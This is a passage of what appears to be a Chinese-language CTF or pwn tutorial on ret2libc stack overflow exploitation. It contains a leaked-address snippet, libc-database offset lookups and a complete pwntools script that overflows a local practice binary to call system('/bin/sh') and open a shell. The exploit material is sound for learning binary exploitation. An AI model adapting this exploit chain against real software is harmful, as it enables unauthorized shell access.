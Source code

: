 ```python

puts_addr = u32(raw_data)  # recieve the addr leaked

print(hex(puts_addr))  # print out the leaked address of puts
```

###### 查找libc库的偏移

```python
$ ./find puts 140                                      
/home/ganliber/Documents/pwn_test/stack/Q_ret2libc/libc-2.23.so (local-c1d3aa79808e71885c67b9763b5e52a96cc02d16)

$ ./dump local-c1d3aa79808e71885c67b9763b5e52a96cc02d16
offset___libc_start_main_ret = 0x18637
offset_system = 0x0003a940
offset_dup2 = 0x000d4b50
offset_read = 0x000d4350
offset_write = 0x000d43c0
offset_str_bin_sh = 0x15902b
offset___libc_start_main = 0x00018540
offset_puts = 0x0005f140
```

###### 栈溢出漏洞利用

> 利用前两步的数据，一击致命

```python
from pwn import *

''' Data from local libc-database '''
offset_system = 0x0003a940
offset_str_bin_sh = 0x15902b
offset___libc_start_main = 0x00018540
offset_puts = 0x0005f140

puts_addr = 0xf7e7d140  # data got from file exp_leak_memory.py

libcBase = puts_addr - offset_puts

system_addr = offset_system + libcBase

binsh_addr = offset_str_bin_sh + libcBase

payload = flat(cyclic(112), system_addr, cyclic(4), binsh_addr)

io = process('./ret2libc3')

io.sendlineafter('!?', payload)

io.interactive()
```
